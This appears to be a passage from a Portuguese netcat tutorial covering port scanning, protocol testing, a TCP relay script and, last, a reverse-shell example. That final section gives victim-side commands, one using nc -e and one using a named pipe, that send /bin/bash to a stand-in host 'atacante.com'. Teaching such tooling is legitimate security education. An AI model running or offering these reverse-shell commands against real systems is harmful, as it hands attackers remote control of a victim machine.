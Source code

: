 **Port Scanning**
```bash
# Scan de porta única
nc -zv 192.168.1.100 22

# Scan de range de portas
nc -zv 192.168.1.100 20-80

# Scan UDP
nc -zuv 192.168.1.100 53

# Timeout
nc -zv -w 2 192.168.1.100 22
```

**Cliente de Protocolos**
```bash
# HTTP GET request
echo -e "GET / HTTP/1.0\r\nHost: example.com\r\n\r\n" | nc example.com 80

# Testar SMTP
nc smtp.gmail.com 25

# Testar POP3
nc pop.gmail.com 110

# Testar banner SSH
nc 192.168.1.100 22
```

**Caso Prático: Port Relay (Proxy TCP)**
```bash
#!/bin/bash
# Criar relay entre duas portas

LOCAL_PORT=8080
REMOTE_HOST="backend.local"
REMOTE_PORT=80

echo "Iniciando relay: localhost:$LOCAL_PORT -> $REMOTE_HOST:$REMOTE_PORT"

while true; do
    nc -l $LOCAL_PORT | nc $REMOTE_HOST $REMOTE_PORT
done
```

**Caso Prático: Reverse Shell**
```bash
# ATENÇÃO: Apenas para fins educacionais/testes autorizados

# Atacante (escutar)
nc -lvp 4444

# Vítima (conectar)
nc atacante.com 4444 -e /bin/bash

# Versão com named pipe (se -e não disponível)
# Vítima
mkfifo /tmp/pipe
/bin/bash -i < /tmp/pipe 2>&1 | nc atacante.com 4444 > /tmp/pipe
```

---